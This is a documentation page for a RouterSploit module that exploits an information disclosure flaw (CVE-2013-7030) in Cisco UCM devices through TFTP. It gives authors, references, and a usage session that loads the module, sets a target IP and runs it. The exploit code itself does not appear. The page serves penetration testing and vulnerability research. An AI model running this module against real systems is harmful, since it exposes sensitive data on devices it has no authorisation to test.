 # Cisco UCM Info Disclosure

## Description
Module exploits information disclosure vulnerability in Cisco UCM devices. If the target is vulnerable it is possible to read sensitive information through TFTP service.

## Authors
* Daniel Svartman <danielsvartman[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/30237/](https://www.exploit-db.com/exploits/30237/)
* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-7030](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-7030)

## Vulnerable devices
* Cisco UCM

## Usage
```
rsf > use exploits/cisco/ucm_info_disclosure
rsf (Cisco UCM Info Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target IP address


rsf (Cisco UCM Info Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Cisco UCM Info Disclosure) > run
[*] Running module..
```
